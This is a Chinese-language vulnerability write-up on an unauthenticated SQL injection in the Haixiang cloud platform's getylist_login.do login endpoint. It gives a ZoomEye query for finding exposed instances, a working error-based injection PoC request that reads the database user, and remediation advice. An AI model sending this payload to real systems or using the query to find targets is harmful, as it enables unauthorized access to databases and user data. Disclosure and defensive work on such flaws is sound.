 
# 海翔云平台 getylist\_login.do SQL 注入漏洞复现

### 0x01 产品简介

  海翔[云平台](https://so.csdn.net/so/search?q=%E4%BA%91%E5%B9%B3%E5%8F%B0&spm=1001.2101.3001.7020)一站式整体解决方案提供商，业务涵盖 批发、连锁、零售行业 ERP 解决方案、wms 仓储解决方案、电商、外勤、移动终端（PDA、APP、小程序）解决方案。

### 0x02 漏洞概述

  海翔云平台 getylist\_login.do 接口处存在 SQL 注入漏洞，未经身份认证的攻击者可通过该漏洞获取数据库权限，除了可以利用 SQL 注入漏洞获取数据库中的信息（例如，管理员后台密码、站点的用户个人信息）之外，甚至在高权限的情况可向服务器中写入木马，进一步获取服务器系统权限。

### 0x03 复现环境

钟馗之眼：app:"海翔云平台"

![](assets/1701222661-98a7b56d15a11a488ca28afe30b8a250.png)

### 0x04 漏洞复现

PoC

```http
POST /getylist_login.do HTTP/1.1
Host: {{Hostname}}
Accept-Encoding: gzip
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Content-Length: 75

accountname=test' and (updatexml(1,concat(0x7e,(select user()),0x7e),1));--
```

查询当前用户

![](assets/1701222661-49e2e868510a8567a542c63beae53828.png)

### 0x05 修复建议

官方已修复该漏洞，建议受影响的用户升级至安全版本：http://www.seaflysoft.com/

部署 Web 应用防火墙，对数据库操作进行监控。

如非必要，禁止公网访问该系统。
